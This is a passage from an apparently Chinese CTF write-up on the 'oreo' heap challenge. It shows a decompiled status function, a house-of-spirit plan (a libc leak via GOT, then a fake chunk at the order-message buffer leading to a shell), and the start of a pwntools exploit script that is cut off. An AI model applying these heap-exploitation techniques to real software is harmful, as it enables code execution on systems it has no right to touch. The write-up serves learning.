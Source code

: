   输入订货信息，可用来构造fake_chunk
5. current_status

  ```c++
  unsigned int current_status()
  {
    puts("======= Status =======");
    printf("New:    %u times\n", rifle_num);
    printf("Orders: %u times\n", rifle_num_ordered);
    if ( *message_order )
      printf("Order Message: %s\n", message_order);
    puts("======================");
    return __readgsdword(0x14u) ^ v1;
  }
  ```

  显示订单状态，输出枪支数以及订单信息

### 利用-oreo

大致思路：

1. 通过溢出控制next指针指向程序表的got表位置，调用show时泄露libc。此外，将next指向结构体时，需要结构体的next指针为NULL。
2. 枪支结构体大小为0x38,所以chund的大小为0x40(prev_size和size)。通过`house of sprit`来返回一个 0x0804A2A8（message_oder） 处的chunk，所以需要设置 0x0804A2A8 处的内容为 0x40，通过添加 0x40只枪，来使 rifle_num 变成0x40即 0x0804A2A4的值变成0x40,从而绕过大小检测(message_oder为malloc返回的地址）。同时需要确保next指针绕过检测，需要编辑留下信息
3. 成功分配fake_chunk之后，就可以通过任意地址修改（message_oder是我们可任意修改的）来获取shell了。

### exp-oreo

```python
from pwn import *
from LibcSearcher import LibcSearcher
context.arch='i386'
context.log_level='DEBUG'

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\0'))
uu64    = lambda data               :u64(data.ljust(8,'\0'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))

def add(name , describle):
  # ru("Action:")
  sl(1)
  # ru("Rifle name:")
  sl(name)
  # ru("Rifle description:")
  sl(describle)

def show():
  # ru("Action:")
  sl(2)
  # ru("===================================\n")

def order():
  # ru("Action:")
  sl(3)

def message(messages):
  # ru("Action:")
```